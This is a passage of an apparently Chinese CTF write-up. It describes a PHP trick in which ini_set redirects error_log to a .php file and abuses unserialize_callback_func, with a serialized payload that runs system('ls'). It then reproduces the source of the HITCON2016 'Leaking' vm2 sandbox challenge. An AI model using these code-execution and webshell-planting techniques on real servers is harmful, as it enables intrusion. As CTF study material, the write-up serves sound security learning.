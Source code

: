 原因

```
ini_set('error_log','yu.php');
 错误日志写入的文件名

ini_set('unserialize_callback_func','mycallback');
当反序列化后，PHP会寻找mycallback这个方法来include这个类文件，如果没定义这个方法则报错。

ini_set('html_errors',false);
不加这个的话，错误日志内容会html编码。
```

首先通过error_log生成php文件, 然后就是怎么把想执行的命令在报错中显示, 用到了 **unserialize_callback_func, 只要值是没有定义的方法, 就会把这个方法在报错中显示出来**

**unserialize_callback_func 还有一个功能, 就是可以执行函数, 函数的参数是反序列化的类名** 

```php
<?php
class main{
    public $settings;
    public $params;

    public function __construct(){
        $this->settings=array(
        'unserialize_callback_func'=>'system',
        );
        $this->params='O:2:"ls":0:{}';      
    }
}
$a=new main();
echo serialize($a);
```

这样其实是可以执行`system('ls')`的，但是类名只能有_（下划线）一个特殊符号, 无法读取文件

## [HITCON2016]Leaking

源码

```js
"use strict";
var randomstring = require("randomstring");
var express = require("express");
var {
    VM
} = require("vm2");
var fs = require("fs");
var app = express();
var flag = require("./config.js").flag
app.get("/", function(req, res) {
    res.header("Content-Type", "text/plain");
    /*    Orange is so kind so he put the flag here. But if you can guess correctly :P    */
    eval("var flag_" + randomstring.generate(64) + " = \"hitcon{" + flag + "}\";")
    if (req.query.data && req.query.data.length <= 12) {
        var vm = new VM({
            timeout: 1000
        });
        console.log(req.query.data);
        res.send("eval ->" + vm.run(req.query.data));
    } else {
        res.send(fs.readFileSync(__filename).toString());
    }
});
app.listen(3000, function() {
    console.log("listening on port 3000!");
```